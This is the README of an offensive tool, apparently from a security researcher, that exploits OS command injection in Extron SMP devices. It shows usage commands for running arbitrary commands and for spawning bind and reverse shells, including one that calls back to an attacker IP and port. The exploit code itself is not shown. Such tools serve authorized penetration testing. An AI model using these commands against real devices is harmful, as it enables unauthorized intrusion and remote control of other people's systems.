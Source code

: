# Extron SMP OS Command Injection

By Ryan Roth [@f1rstm4tter](https://twitter.com/f1rstm4tter)
[www.layer8security.com](http://www.layer8security.com)

## Overview

This tool exploits OS command injection vulnerabilities in Extron SMP devices. It allows users to execute arbitrary commands and spawn shells (both bind and reverse) on the target system.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging](#logging)
- [License](#license)

## Installation

To use this tool, you need Python 3.x and `pip` installed. Clone the repository and install the required packages:

```bash
git clone https://github.com/yourusername/extron-smp-inject.git
cd extron-smp-inject
pip install -r requirements.txt
```

## Usage

To run the tool, use the following command:

```bash
python extron_smp_inject.py <action> [options]
```

### Arguments

- `action`: The action to perform (either `command`, `bind`, or `reverse`).
- `rhost`: The target IP address (required).
- `rport`: The target port (80 or 443) (required).
- `--username`: The username for authentication (default: `admin`).
- `--password`: The password for authentication.
- `-v` or `--verbose`: Enable verbose logging.
- `--log-file`: Specify a log file to write logs to.

### Examples

**Execute an arbitrary command:**

```bash
python extron_smp_inject.py command <target_ip> <target_port> --username admin --password <password> "ls -la"
```

**Spawn a bind shell:**

```bash
python extron_smp_inject.py bind <target_ip> <target_port> <local_port> --username admin --password <password>
```

**Spawn a reverse shell:**

```bash
python extron_smp_inject.py reverse <target_ip> <target_port> <attacker_ip> <attacker_port> --username admin --password <password>
```

## Logging

The tool supports logging output to the console and optionally to a file. You can enable verbose logging using the `-v` option, which provides more detailed output during execution.


## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Ensure you have proper authorization before testing devices. Unauthorized access is illegal.
